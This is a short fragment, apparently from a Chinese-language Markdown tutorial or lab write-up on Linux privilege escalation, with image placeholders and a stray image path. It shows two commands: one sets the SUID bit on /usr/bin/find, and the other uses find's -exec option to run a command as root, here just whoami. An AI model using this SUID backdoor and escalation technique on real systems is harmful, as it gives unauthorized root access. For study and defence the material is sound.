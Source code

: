 ![Alt text](image-35.png)    
添加S权限。
```bash
 chmod u+s /usr/bin/find
```
![Alt text](image-36.png)   
应用 `find` 进行提权。   
```bash
 find / -name post_a.php -exec "whoami" \;
```   